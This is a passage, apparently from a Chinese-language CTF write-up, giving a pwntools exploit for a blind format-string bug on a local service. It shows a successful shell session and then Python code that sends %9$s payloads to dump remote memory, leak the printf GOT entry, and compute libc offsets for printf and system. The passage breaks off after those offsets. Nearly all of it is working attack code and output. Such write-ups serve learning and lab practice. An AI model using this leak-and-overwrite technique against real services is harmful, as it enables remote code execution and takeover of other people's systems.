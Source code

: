 Bingo!!!
```
$ python2 exp.py
[+] Opening connection to 127.0.0.2 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```


## Exploit
完整的 exp 如下：
```python
from pwn import *

# context.log_level = 'debug'

def exec_fmt(payload):
    p.sendline(payload)
    info = p.recv()
    return info
# p = remote('127.0.0.1', '10001')
# p.recvline()
# auto = FmtStr(exec_fmt)
# offset = auto.offset
# p.close()

def dump_memory(start_addr, end_addr):
    result = ""
    while start_addr < end_addr:
        p = remote('127.0.0.1', '10001')
        p.recvline()
        # print result.encode('hex')
        payload = "%9$s.AAA" + p32(start_addr)
        p.sendline(payload)
        data = p.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s" % (start_addr, data.encode('hex')))
        result += data
        start_addr += len(data)
        p.close()
    return result
# start_addr = 0x8048000
# end_addr   = 0x8049000
# code_bin = dump_memory(start_addr, end_addr)
# with open("code.bin", "wb") as f:
#     f.write(code_bin)
#     f.close()
printf_got = 0x8049974

## method 1
def get_printf_addr():
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4]
    log.info("printf address: %s" % data.encode('hex'))
    return data
# printf_addr = get_printf_addr()
printf_addr = 0xf7e0e670
offset_printf = 0x00051670
offset_system = 0x0003cc50
```